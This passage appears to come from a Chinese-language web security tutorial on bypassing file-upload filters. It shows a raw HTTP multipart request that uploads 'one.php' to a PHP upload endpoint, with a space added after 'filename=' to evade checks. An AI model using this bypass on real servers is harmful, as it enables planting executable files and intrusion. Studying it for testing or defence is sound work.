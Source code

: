 [![](assets/1707954466-3e959981c6945111ef090f5533ab3b0c.png)](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706945800459-8d29a222-85ff-466d-aa96-32a13de2a483.png#averageHue=%23f8f3f3&clientId=u74e75591-cad2-4&from=paste&height=681&id=uca4146af&originHeight=1021&originWidth=1587&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=322431&status=done&style=none&taskId=ua515ac51-ebb9-4729-a7c5-32a712ed539&title=&width=1058)

##### filename 绕过

在 filename 后面加入空格

```plain
POST /upFile.php HTTP/1.1
Host: 39.106.145.5:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2477136673360361791890184650
Content-Length: 233
Origin: http://39.106.145.5:7777
Connection: close
Referer: http://39.106.145.5:7777/
Cookie: sl-session=OAWDFEAwv2UukbVHDXo51w==
Upgrade-Insecure-Requests: 1

-----------------------------2477136673360361791890184650
Content-Disposition: form-data; name="file"; filename= "one.php"
Content-Type: application/octet-stream

123
-----------------------------2477136673360361791890184650--
```
